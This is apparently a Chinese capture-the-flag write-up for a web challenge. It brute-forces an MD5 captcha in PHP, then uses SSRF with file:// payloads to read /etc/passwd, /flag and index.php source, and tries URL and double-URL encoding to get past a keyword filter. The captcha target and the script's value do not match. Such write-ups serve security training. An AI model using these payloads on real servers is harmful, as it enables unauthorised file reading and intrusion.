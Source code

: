 Captcha的地方写着代码：substr(md5(captcha), -6, 6) == "974961"，很明显验证码的md5值的后六位要等于指定的数字。
    '''
          <?php
for ($i=0; $i < 1000000000; $i++) {
    $a = substr(md5($i), -6, 6);
    if ($a == "fc6943") {   //此处为==后面的内容
        echo $i;   //输出验证码
        break;
    }
}
?>
  '''


解决了验证码的问题后，我们可以试着通过SSRF中URL伪协议file://来访问服务器的文件，例如/etc/passwd
url=file:///etc/passwd&captcha=*****
接着试试能不能访问/flag文件
url=file:///flag&captcha=*****
再试试看能不能读网页的源代码
url=file:///var/www/html/index.php&captcha=*****
******************code************************
<?php
error_reporting(0);
session_start();
require_once "lib.php";
init();
 
$is_die = 0;
$is_post = 0;
$die_mess = '';
$url = '';
 
if (isset($_POST['url']) && isset($_POST['captcha']) && !empty($_POST['url']) && !empty($_POST['captcha']))
{
    $url = $_POST['url'];
    $captcha = $_POST['captcha'];
    $is_post = 1;
    if ( $captcha !== $_SESSION['answer'])
    {
        $die_mess = "wrong captcha";
        $is_die = 1;
    }
    if ( preg_match('/flag|proc|log/i', $url) )
    {
        $die_mess = "hacker";
        $is_die = 1;
    }
}

阅读源码，发现确实对flag进行了过滤 preg_match('/flag|proc|log/i', $url) ，那么就需要对preg_match函数进行绕过。
同时因为/i 表明不区分大小写，因此无法通过大小写绕过。试试URL编码，file:///%66%6c%61%67
url=file:///%66%6c%61%67&captcha=*****
一次不行进行二次编码：
url=file:///%25%36%36%25%36%63%25%36%31%25%36%37&captcha=*****

